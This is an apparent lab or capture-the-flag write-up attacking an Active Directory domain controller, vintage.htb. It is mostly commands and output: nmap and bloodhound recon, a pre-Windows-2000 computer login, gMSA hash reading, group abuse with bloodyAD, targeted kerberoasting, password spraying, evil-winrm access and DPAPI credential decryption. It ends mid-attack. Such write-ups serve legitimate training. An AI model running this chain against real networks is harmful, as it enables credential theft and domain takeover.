## Intial Recon

### Nmap scan

```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Vintage]
└─$ cat nmap_vintage.txt
# Nmap 7.98 scan initiated Thu Sep 24 09:19:03 2026 as: /usr/lib/nmap/nmap -p- -A -T4 -Pn -vv -oN nmap_vintage.txt 10.129.231.205
Nmap scan report for 10.129.231.205
Host is up, received user-set (0.059s latency).
Scanned at 2026-09-24 09:19:04 BST for 192s
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-09-24 01:20:40Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: vintage.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: vintage.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49676/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49687/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
63192/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
65303/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=9/24%OT=53%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=6AB4DDB8%P=x86_64-pc-linux-gnu)
SEQ(SP=101%GCD=1%ISR=10D%TI=I%II=I%SS=S%TS=A)
SEQ(SP=FF%GCD=1%ISR=107%TI=I%TS=A)
OPS(O1=M542NW8ST11%O2=M542NW8ST11%O3=M542NW8NNT11%O4=M542NW8ST11%O5=M542NW8ST11%O6=M542ST11)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFDC)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M542NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Uptime guess: 0.011 days (since Thu Sep 24 09:06:58 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=257 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 22961/tcp): CLEAN (Timeout)
|   Check 2 (port 11405/tcp): CLEAN (Timeout)
|   Check 3 (port 17035/udp): CLEAN (Timeout)
|   Check 4 (port 22763/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2026-09-24T01:21:34
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: -7h00m01s

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   97.50 ms 10.10.16.1
2   97.54 ms 10.129.231.205

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep 24 09:22:16 2026 -- 1 IP address (1 host up) scanned in 192.52 seconds
```

ran a bloodhound scan to on the given username and password

```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Vintage]
└─$ bloodhound-ce-python -u P.Rosa  -p 'Rosaisbest123' -d vintage.htb -ns 10.129.231.205  -c All
```

didnt find any useful info , then smb enumeration nothing specfic , 
```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Vintage]
└─$ nxc smb 10.129.231.205 -u "P.Rosa" -p "Rosaisbest123" -k --shares
SMB         10.129.231.205  445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         10.129.231.205  445    dc01             [+] vintage.htb\P.Rosa:Rosaisbest123 
SMB         10.129.231.205  445    dc01             [*] Enumerated shares
SMB         10.129.231.205  445    dc01             Share           Permissions     Remark
SMB         10.129.231.205  445    dc01             -----           -----------     ------
SMB         10.129.231.205  445    dc01             ADMIN$                          Remote Admin
SMB         10.129.231.205  445    dc01             C$                              Default share
SMB         10.129.231.205  445    dc01             IPC$            READ            Remote IPC
SMB         10.129.231.205  445    dc01             NETLOGON        READ            Logon server share 
SMB         10.129.231.205  445    dc01             SYSVOL          READ            Logon server share 
```

After that tried different modules of nxc found  and delegation maybe useful in the future , after several hours of enumeration

```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Vintage]
└─$ nxc ldap 10.129.231.205 -u P.Rosa -p Rosaisbest123 -k --find-delegation
LDAP        10.129.231.205  389    DC01             [*] None (name:DC01) (domain:vintage.htb) (signing:None) (channel binding:No TLS cert) (NTLM:False)                                                                                                                                         
LDAP        10.129.231.205  389    DC01             [+] vintage.htb\P.Rosa:Rosaisbest123 
LDAP        10.129.231.205  389    DC01             AccountName     AccountType DelegationType             DelegationRightsTo
LDAP        10.129.231.205  389    DC01             --------------- ----------- -------------------------- ------------------
LDAP        10.129.231.205  389    DC01             DelegatedAdmins Group       Resource-Based Constrained DC01$             
```

i did find the pre2k computer but its through luck to be honest the nxc module wasnt reliable at all for this i am not sure why the pre2k is simplely when a pre-created computer assigned with this option **Assign this computer account as a pre-Windows 2000 computer**
 we can get the password which would be sam samAccountname as the computer

```nxc
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Vintage]
└─$ nxc ldap 10.129.231.205 -u P.Rosa -p Rosaisbest123 -k -M pre2k
LDAP        10.129.231.205  389    DC01             [*] None (name:DC01) (domain:vintage.htb) (signing:None) (channel binding:No TLS cert) (NTLM:False)                                                                                                                                         
LDAP        10.129.231.205  389    DC01             [+] vintage.htb\P.Rosa:Rosaisbest123 
```

however if we enumerate the computers

```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Vintage]
└─$ nxc ldap 10.129.231.205 -u P.Rosa -p Rosaisbest123 -k --computers
LDAP        10.129.231.205  389    DC01             [*] None (name:DC01) (domain:vintage.htb) (signing:None) (channel binding:No TLS cert) (NTLM:False)                                                                                                                                         
LDAP        10.129.231.205  389    DC01             [+] vintage.htb\P.Rosa:Rosaisbest123 
LDAP        10.129.231.205  389    DC01             [*] Total records returned: 3
LDAP        10.129.231.205  389    DC01             DC01$
LDAP        10.129.231.205  389    DC01             gMSA01$
LDAP        10.129.231.205  389    DC01             FS01$
```

we can see three computers lets try one by one and fs01 got hit




From the bloodhound we can see the fms01 can read gmsa password of the user

```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Vintage]
└─$ nxc ldap 10.129.231.205 -u fs01 -p fs01 -k --gmsa

LDAP        10.129.231.205  389    DC01             [*] None (name:DC01) (domain:vintage.htb) (signing:None) (channel binding:No TLS cert) (NTLM:False)
LDAP        10.129.231.205  389    DC01             [+] vintage.htb\fs01:fs01 
LDAP        10.129.231.205  389    DC01             [*] Getting GMSA Passwords
LDAP        10.129.231.205  389    DC01             Account: gMSA01$              NTLM: 973801840f93d518a987b87cf8faa5d8     PrincipalsAllowedToReadPassword: Domain Computers
```

`gMSA01 : 973801840f93d518a987b87cf8faa5d8`

so we got the NTLM hash of gms01

we can gms01 have getaddself to service manager group before adding lets see if gmsa have any access  which doesnt 
seems to have one


Then we can add the user to the group 
```bash
impacket-getTGT -dc-ip dc01.vintage.htb -hashes :973801840f93d518a987b87cf8faa5d8 'vintage.htb/gMSA01$'
```
Then export the hash

```bash
export KRB5CCNAME=gMSA01\$.ccache
```

After that use bloodyAD to add the user to the group

```bash
┌──(penguin㉿0X0F)-[~]
└─$ bloodyAD --host dc01.vintage.htb --dc-ip 10.129.231.205 -d vintage.htb -k add groupMember 'SERVICEMANAGERS' 'gMSA01$'
[+] gMSA01$ added to SERVICEMANAGERS

```
On further enumeration we can group member have genricAll right over this three service user


from the bloodHound we can see the sql service account is disabled


so lets enable it using bloodyAD 

```bash
┌──(penguin㉿0X0F)-[~]
└─$ bloodyAD --host dc01.vintage.htb --dc-ip 10.129.231.205 -d vintage.htb -k remove uac 'svc_sql' -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from svc_sql's userAccountControl
```

then we can check with nxc


As we can the service account doesnt have much of privelege 


we can try to crack the password of the service account and spray to user we exported beforehand

we need to set an fake spn so we can kerberoaste and capture the hash crack offline

```bash
┌──(penguin㉿0X0F)-[~]
└─$ bloodyAD --host dc01.vintage.htb --dc-ip 10.129.65.240 -d vintage.htb -k set object 'svc_sql' servicePrincipalName -v 'cifs/x.vintage.htb'
[+] svc_sql's servicePrincipalName has been updated
```

then using nxc we capture the hash


and we can crack the hash using hashcat , then we gonna spray with the users

```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Vintage/bh]
└─$ hashcat  svc_Sql /usr/share/wordlists/rockyou.txt
```

authenticated users
```bash
──(penguin㉿0X0F)-[~/CAPE_Boxes/Vintage/bh]
└─$ nxc smb 10.129.65.240  -u user.txt -p Zer0the0ne  -k --continue-on-success 
SMB         10.129.65.240   445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         10.129.65.240   445    dc01             [-] vintage.htb\Administrator:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         10.129.65.240   445    dc01             [-] vintage.htb\Guest:Zer0the0ne KDC_ERR_CLIENT_REVOKED 
SMB         10.129.65.240   445    dc01             [-] vintage.htb\krbtgt:Zer0the0ne KDC_ERR_CLIENT_REVOKED 
SMB         10.129.65.240   445    dc01             [-] vintage.htb\M.Rossi:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         10.129.65.240   445    dc01             [-] vintage.htb\R.Verdi:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         10.129.65.240   445    dc01             [-] vintage.htb\L.Bianchi:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         10.129.65.240   445    dc01             [-] vintage.htb\G.Viola:Zer0the0ne KDC_ERR_PREAUTH_FAILED                                   
SMB         10.129.65.240   445    dc01             [+] vintage.htb\C.Neri:Zer0the0ne 
SMB         10.129.65.240   445    dc01             [-] vintage.htb\P.Rosa:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         10.129.65.240   445    dc01             [+] vintage.htb\svc_sql:Zer0the0ne 
SMB         10.129.65.240   445    dc01             [-] vintage.htb\svc_ldap:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         10.129.65.240   445    dc01             [-] vintage.htb\svc_ark:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         10.129.65.240   445    dc01             [-] vintage.htb\C.Neri_adm:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         10.129.65.240   445    dc01             [-] vintage.htb\L.Bianchi_adm:Zer0the0ne KDC_ERR_PREAUTH_FAILED
```

`C.Neri:Zer0the0ne`

and we can see she is member of remote managment user


so lets use winrm to authenticate since NTLM authentication is disabled we gonna use kerberose 

```
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Vintage/bh]
└─$ impacket-getTGT -dc-ip dc01.vintage.htb 'vintage.htb/C.Neri:Zer0the0ne'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in C.Neri.ccache
```

EXport the ticket

```bash
export KRB5CCNAME=C.Neri.ccache
```

```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Vintage/bh]
└─$ evil-winrm -i dc01.vintage.htb -r vintage.htb
```

after getting user credential it was evident that the account had defender turned on so most the public tool i wasnt able to use for enumeration 

We found the DPAPI Which can be decrypted using impacket from the attacker machine

first converting the master key to base64 
```bash
*Evil-WinRM* PS C:\Users\C.Neri\Documents> [Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115\99cf41a3-a552-4cf7-a8d7-aca2d6f7339b'))
AgAAAAAAAAAAAAAAOQA5AGMAZgA0ADEAYQAzAC0AYQA1ADUAMgAtADQAYwBmADcALQBhADgAZAA3AC0AYQBjAGEAMgBkADYAZgA3ADMAMwA5AGIAAAAAAAAAAAAAAAAAiAAAAAAAAABoAAAAAAAAAAAAAAAAAAAAdAEAAAAAAAACAAAA6o788ZIMNhaSpbkSX0mC01BGAAAJgAAAA2YAABAM9ZX6Z/40RYL/aC+dw/D5oa7WMYBN56zwgXYX4QrAIb4DtJoM27zWgMxygJ36SpSHHHQGJMgTs6nZN5U/1q7DBIpQlsWk15jpmUFS2czCScuP9C+dGdYT+p6AWb3L7PZUPqNDHqZRAgAAALFxHXdcOeYbfN6CsYeVaYZQRgAACYAAAANmAABiEtEJeAVpg4QA0lnUzAsf6koPtccl1os9yZrj1gTAc/oSmhBNPEE3/VVVPZw9g3NP26Wj3vO36IOmtsXWYABkukmijrSaAZUCAAAAAAEAAFgAAACn2p9w/uXURbRTVVUG8NTwr2BFf0a0DhdM8JymBww6mzQt8tVsTbDmCZ/uZu3bzOAOUXODaGaJOOKqRm2W8rHPOZ27YjtD1pd0MFJDocNJwdhN5pwTdz2v2JsrVVVE363zZjXHeXefhuL5AMwMQr6gpTsCGcxrd1ziTN9Q1lH9QtnYE7OZlbrZPhiWO2vvdX+UQcKlgpxcSGLaczL53/UJXrvt9hueRn+YXxnK+fiyZ0gmjMlP+yuxOiKSvHM/UT6NmuYewnApQrOBO3A5F1XKHguHKT+VS187uBu/TO1ZT4/CrsKws1aG7EkIXhRKzEgukAwn5nZlU6YaADdeQRDzCR1D0ycJKFyZd4QE1Nt6Kbgr+ukbiurwBJd/D1a3+WWCw+S2OJVHB9qqlcW11heJd+v9eGe1Wf6/PYCvyyWMsvusF8XUswgKQbkH821vscyNmJWDwMply/ZvellKuGQ1/s5gVqUkALQ=
```

then decode to bin on our own machine
```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Vintage]
└─$ echo 'AgAAAAAAAAAAAAAAOQA5AGMAZgA0ADEAYQAzAC0AYQA1ADUAMgAtADQAYwBmADcALQBhADgAZAA3AC0AYQBjAGEAMgBkADYAZgA3ADMAMwA5AGIAAAAAAAAAAAAAAAAAiAAAAAAAAABoAAAAAAAAAAAAAAAAAAAAdAEAAAAAAAACAAAA6o788ZIMNhaSpbkSX0mC01BGAAAJgAAAA2YAABAM9ZX6Z/40RYL/aC+dw/D5oa7WMYBN56zwgXYX4QrAIb4DtJoM27zWgMxygJ36SpSHHHQGJMgTs6nZN5U/1q7DBIpQlsWk15jpmUFS2czCScuP9C+dGdYT+p6AWb3L7PZUPqNDHqZRAgAAALFxHXdcOeYbfN6CsYeVaYZQRgAACYAAAANmAABiEtEJeAVpg4QA0lnUzAsf6koPtccl1os9yZrj1gTAc/oSmhBNPEE3/VVVPZw9g3NP26Wj3vO36IOmtsXWYABkukmijrSaAZUCAAAAAAEAAFgAAACn2p9w/uXURbRTVVUG8NTwr2BFf0a0DhdM8JymBww6mzQt8tVsTbDmCZ/uZu3bzOAOUXODaGaJOOKqRm2W8rHPOZ27YjtD1pd0MFJDocNJwdhN5pwTdz2v2JsrVVVE363zZjXHeXefhuL5AMwMQr6gpTsCGcxrd1ziTN9Q1lH9QtnYE7OZlbrZPhiWO2vvdX+UQcKlgpxcSGLaczL53/UJXrvt9hueRn+YXxnK+fiyZ0gmjMlP+yuxOiKSvHM/UT6NmuYewnApQrOBO3A5F1XKHguHKT+VS187uBu/TO1ZT4/CrsKws1aG7EkIXhRKzEgukAwn5nZlU6YaADdeQRDzCR1D0ycJKFyZd4QE1Nt6Kbgr+ukbiurwBJd/D1a3+WWCw+S2OJVHB9qqlcW11heJd+v9eGe1Wf6/PYCvyyWMsvusF8XUswgKQbkH821vscyNmJWDwMply/ZvellKuGQ1/s5gVqUkALQ=' | base64 -d > masterkey2.bin
```

After that its credential blob

```bash
*Evil-WinRM* PS C:\Users\C.Neri\Documents> [Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials\C4BB96844A5C9DD45D5B6A9859252BA6'))
AQAAAKIBAAAAAAAAAQAAANCMnd8BFdERjHoAwE/Cl+sBAAAAo0HPmVKl90yo16yi1vczmwAAACA6AAAARQBuAHQAZQByAHAAcgBpAHMAZQAgAEMAcgBlAGQAZQBuAHQAaQBhAGwAIABEAGEAdABhAA0ACgAAAANmAADAAAAAEAAAANlsnh9uZhRwM1xc/8CNBwwAAAAABIAAAKAAAAAQAAAAK+zRTF7v+bPA1UScG2CL4uAAAABoyaUl8s/1J1TabkeZkP1VvjzlbcQ61ojdLQpks7Q0/irEKMmlFOJ/Za2o8akFz3kS28HEeNGkg/3kGNOvhVbnZ2NJQHTJ12SgjFuAuPhdS9Ob2CvqW9xu7pDGXPt5AHKqlqRy+fajjcEYkGP0ki6sLBF/rpFnQvRQ9hCg8iVqyq3BpSdwOZ1h0Zxh8mbvDPv+XHw9+o6DabZifdfj+GuMRi+GDNLvv8orYUqHZ6hHO3vB4kDu5T4G8QsIAtULBs3V2ww1G7xdGI57BGKi4LEk6kuaEWopsCflsc5FK4a4xBQAAABSjIrXKMIH3qbzDSrnPMUzCyhkAA==
```

After saving it we gonna decrypt , for that we need decrypt key

```bash
 impacket-dpapi masterkey -file masterkey2.bin -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password 'Zer0the0ne'
```


With the decrypt key we can extract the credential from the blob

```bash

┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Vintage]
└─$ impacket-dpapi credential -file cred.bin -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2024-06-07 15:08:23+00:00
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000001 (CRED_TYPE_GENERIC)
Target      : LegacyGeneric:target=admin_acc
Description : 
Unknown     : 
Username    : vintage\c.neri_adm
Unknown     : Uncr4ck4bl3P4ssW0rd0312
```

`vintage\c.neri_adm : Uncr4ck4bl3P4ssW0rd0312`



who is member domian admin

so lets try to access the user : ) see if we can do anything i tried to change password of user 

```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Vintage]
└─$ bloodyAD --host dc01.vintage.htb --dc-ip 10.129.65.240 -d vintage.htb -k set password 'L.Bianchi_adm' 'NewPass123!'
Traceback (most recent call last):
  File "/usr/bin/bloodyAD", line 8, in <module>
    sys.exit(main())
             ~~~~^^
  File "/usr/lib/python3/dist-packages/bloodyAD/main.py", line 201, in main
    output = args.func(conn, **params)
  File "/usr/lib/python3/dist-packages/bloodyAD/cli_modules/set.py", line 241, in password
    raise e
  File "/usr/lib/python3/dist-packages/bloodyAD/cli_modules/set.py", line 86, in password
    conn.ldap.bloodymodify(target, {"unicodePwd": op_list})
    ~~~~~~~~~~~~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/bloodyAD/network/ldap.py", line 285, in bloodymodify
    raise err
msldap.commons.exceptions.LDAPModifyException: 
Password can't be changed before -2 days, 10:09:09.426320 because of the minimum password age policy.
[ble: exit 1]
```
we  dont have the access to change the password of user : (  

and the other path we found from the bloodhound
